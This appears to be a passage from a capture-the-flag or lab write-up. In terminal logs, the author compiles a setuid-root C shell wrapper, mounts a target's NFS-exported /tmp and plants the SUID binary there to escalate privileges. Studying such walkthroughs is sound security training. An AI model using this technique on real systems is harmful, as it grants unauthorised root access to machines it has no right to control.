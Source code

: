 ```bash
[29/03/22 7:49:00] joey@blackarch:/tmp/backupfromattacker
$ sudo vim nfs.c

[29/03/22 7:50:06] joey@blackarch:/tmp/backupfromattacker
$ sudo cat nfs.c

int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}


[29/03/22 7:50:10] joey@blackarch:/tmp/backupfromattacker
$ sudo gcc nfs.c -o nfs -w

[29/03/22 7:51:07] joey@blackarch:/tmp/backupfromattacker
$ sudo chmod +s nfs          

[29/03/22 7:52:12] joey@blackarch:/tmp/backupfromattacker
$ ls -l nfs 
-rws--S--- 1 root root 16184 Mar 29 19:51 nfs

[29/03/22 7:52:15] joey@blackarch:/tmp/backupfromattacker

```

Okay this actually didn't work so I switched to the /tmp folder.

```bash
[29/03/22 7:54:03] joey@blackarch:~
$ mkdir /tmp/mounttmp

[29/03/22 7:54:19] joey@blackarch:~
$ sudo mount -o rw 10.10.44.64:/tmp /tmp/mounttmp  

[sudo] password for joey: 
[29/03/22 7:54:45] joey@blackarch:~
$ cd /tmp/mounttmp

[29/03/22 7:55:24] joey@blackarch:/tmp/mounttmp
$ sudo cp  /tmp/backupfromattacker/nfs .

[29/03/22 7:55:25] joey@blackarch:/tmp/mounttmp
$ ls -l nfs  
-rwx------ 1 root root 16184 Mar 29 19:55 nfs

[29/03/22 7:55:37] joey@blackarch:/tmp/mounttmp
$ sudo chmod +s nfs

[29/03/22 7:55:43] joey@blackarch:/tmp/mounttmp
$ ll nfs
total 32K
-rws--S--- 1 root root  16K Mar 29 19:55 nfs

[29/03/22 7:55:48] joey@blackarch:/tmp/mounttmp
$ sudo chmod +r nfs

[29/03/22 7:56:00] joey@blackarch:/tmp/mounttmp
$ ls -l nfs
-rws--S--- 1 root root 16184 Mar 29 19:55 nfs

[29/03/22 7:56:02] joey@blackarch:/tmp/mounttmp
```